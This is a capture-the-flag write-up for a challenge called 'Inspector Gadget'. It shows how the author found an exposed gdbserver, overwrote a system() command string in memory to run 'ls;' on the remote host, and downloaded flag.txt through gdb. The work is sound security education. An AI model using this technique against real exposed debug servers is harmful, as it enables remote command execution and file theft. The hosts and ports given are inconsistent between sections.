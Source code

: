 **Name**: Inspector Gadget  
**Points**: 400  
**Instructions**: Exploit the vulnerable inspector-gadget service running at challenges.runesec.com:22417.  
**Hint**: And now you'll be telling stories of my return and they won't be false, and they won't be true but they'll be real  

## Exploration
- `$ strings inspector-gadget` doesn't reveal much.
- Running the binary: Prompts for input, then prints "Answer: LOL!!" and starts a `gdbserver`.
- `$ r2 inspector-gadget` reveals nothing that could lead us to the flag; however, the following 2 lines give us a *Christmas-came-early* moment:
> **0x080485b3**      68a4860408     push str.gdbserver_:65488_inspector_gadget ; str.gdbserver_:65488_inspector_gadget ; "gdbserver :65488 inspector-gadget" @ 0x80486a4  
> **0x080485b8**      e833feffff     **call sym.imp.system**         ;[9]  

- That's a system call. Maybe we can replace the system call to gdbserver with something that can lead us closer to the flag.  
- We also connect to the service running on their server. Same as locally, we get prompted to give an input and then the `gdbserver` is started, on their server. We can connect to it.
```
$ gdb inspector-gadget
gdb > target remote ctf.challenges.com:6445
``` 
- Brainstorming. 
  - The flag is somewhere on the remote server.
  - Maybe we can load some symbols for debugging from an external file.
  - That system call that's available to us is too powerful to be ignored.
  - Maybe we can directly access files on the remote file system.

## Exploitation
Let's use that overwrite that system call from  
`gdbserver :65488 inspector-gadget`  
to something short and simple:  
`ls;`

The string `gdbserver :65488 inspector-gadget` is at memory location `0x80486a4`.

We can override it like so:
```
gdb> set {int}0x80486a4 = 0x3B736C
gdb> continue
```  
*0x3B736C is the hex representation of `ls;`, reversed.*  

It works! On the opened session we have connected to their server it prints:
`flag.txt inspector-gadget` and one more file, but our eyes are staring at `flag.txt`. We must capture it.  

We start thinking about crafting a (short) system call to get the contents of `flag.txt`. `cat *;` maybe?  

Midway of thinking of byte sequences that would make the system call reveal the contents of `flag.txt`, we recall an interesting command for `gdb`:

```
gdb> remote get flag.txt flag.local
```

*Cue the drum roll*   

```
$ cat flag.local
flag{82ef8b2e007da38b9ce1547cd249f6bd}
```
